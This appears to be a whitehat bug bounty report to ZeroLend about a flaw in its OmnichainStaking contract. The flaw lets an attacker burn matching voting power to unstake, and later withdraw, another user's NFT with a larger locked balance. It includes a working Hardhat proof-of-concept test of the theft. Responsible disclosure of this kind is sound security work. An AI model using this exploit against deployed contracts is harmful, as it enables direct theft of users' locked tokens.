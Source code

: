 # Attacker can steal locked balance of staked nft at OmnichainStaking

Submitted  about 2 months  ago by @MahdiKarimi (Whitehat)  for  [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost)

----------


Report ID: #29062

Report type: Smart Contract

Has PoC?: Yes

Target: https://github.com/zerolend/governance

Impacts

-   Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
-   Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties

## Brief/Intro

The OmnichainStaking's unstake function allows anyone to unstake any token by just burning associated voting power, since voting power is based on locked balance and lock duration so two different NFTS with different locked balances can have the same amount of power which allows an attacker to exchange an NFT with some locked balance for an NFT with more locked balance and shorter lock duration. The attacker can mint a tokenLocker NFT by locking some tokens for a long duration, stake it at OmnichainStaking to receive voting power, and use minted voting power to Unstake another NFT ( staked by another user ) with more locked balance and shorter lock duration from OmnichainStaking.

## Vulnerability Details

Users can utilize TokenLocker to create a lock by staking a certain amount of Zero tokens for a specified duration. TokenLocker then generates a unique NFT that represents the locked amount and the duration of the lock. Each NFT has a power value, calculated based on the locked amount and duration; more tokens and a longer lock duration contribute to a higher power. Users can stake these NFTs at OmnichainStaking contract and receive voting power proportional to the power of the TokenLocker NFT, OmnichainStaking has an unstakeToken function that allows anyone to unstake a token by burning the amount of voting power associated with that NFT. users can receive the same amount of voting power by locking different amounts of Zero tokens due to different durations, this creates a situation that enables attackers to lock some amount of tokens for a long duration to receive voting power and use that voting power to unstake a tokenLocker NFT with more locked balance and lower lock duration.

Consider the following scenario : 1 - Alice creates a lock with 40 Zero tokens for two years 2 - Alice transfers minted NFT to omnichainStakign to receive voting power 3 - Bob creates a lock with 20 Zero tokens for four years 4 - Alice and Bob would receive the same amount of voting power ( both NFTs have the same power) 5 - Bob Unstakes NFT of Alice from omniChainStaking ( he has enough voting power since both NFTs have minted the same voting power) 6 - Now Bob has an NFT representing 40 tokens locked for two years while he staked 20 tokens for 4 years. 7 - Now Alice is forced to Unstake Bob's NFT which has 20 locked balances and has been locked for 4 years, he lost 20 tokens .

## Impact Details

Attackers can steal the locked balance of other users which is direct theft of funds. Also users can be forced to stake for a longer time.

## References

[https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L147](https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L147)  [https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L112-L116](https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L112-L116)  [https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L362-L364](https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/BaseLocker.sol#L362-L364)  [https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/OmnichainStaking.sol#L68-L70](https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/OmnichainStaking.sol#L68-L70)  [https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/OmnichainStaking.sol#L76-L79](https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/locker/OmnichainStaking.sol#L76-L79)

## Proof of Concept

```
  describe("attacker can drain staked amount of tokenLocker", () => {
    it("attacker can drain staked amount of tokenLocker", async function () {

    // impoerted whale address from goverancne deployment 
    // imported time from hardhat-network-helpers 
    // transferred 20 zero token to whale and 40 zero token to ant address during deployment 
    // removed vesting part from beforeEach 

    let fourYearInSeconds = 124416000;
    let twoYearInSeconds = 62208000;

    // attacker (whale) has 20 Zero tokens
    let balanceOfAttackerBefore = await zero.balanceOf(whale);
    expect(balanceOfAttackerBefore).eq(20n * e18);
    
    // Victim (ant) creates a lock with 40 Zero tokens for duration of 2 years 
    // ant transferrs minted nft to OmnichainStaking and receives power 
    zero.connect(ant).approve(locker.target, 40n * e18);
    await locker.connect(ant).createLock(40n * e18, twoYearInSeconds, false);
    await locker.connect(ant)["safeTransferFrom(address,address,uint256)"](ant.address, omniStaking.target, 1);

    // whale creates a lock with 20 Zero tokens but for duration of 4 years 
    // he transferrs minted nft to OmnichainStaking 
    // despite that he has locked half of ant address but due to more lock duration (2 times of ant) he would receive almost same amount of power 
    zero.connect(whale).approve(locker.target, 20n * e18);
    await locker.connect(whale).createLock(20n * e18, fourYearInSeconds, false);
    await locker.connect(whale)["safeTransferFrom(address,address,uint256)"](whale.address, omniStaking.target, 2);

    // we can assert that whale has more power than ant 
    let balanceWhale = await omniStaking.balanceOf(whale.address);
    let balanceAnt = await omniStaking.balanceOf(ant.address);
    expect(balanceWhale).greaterThanOrEqual(balanceAnt);

    // whale can unstake minted nft of ant from tokenLocker since he has enough power 
    // this nft has two times more lockedBalance 
    await omniStaking.connect(whale).unstakeToken(1);

    // after 2 years he can withdraw this token from locker 
    // Now whale has 40 Zero token balance 
    // so ant address should use his voting power to other token with 20 Zero balance and 4 years of lock duration

    await time.increase(twoYearInSeconds);
    await locker.connect(whale).withdraw(1);
    let balanceOfAttacker = await zero.balanceOf(whale);
    expect(balanceOfAttacker).eq(40n * e18);


    });
    
  });
```
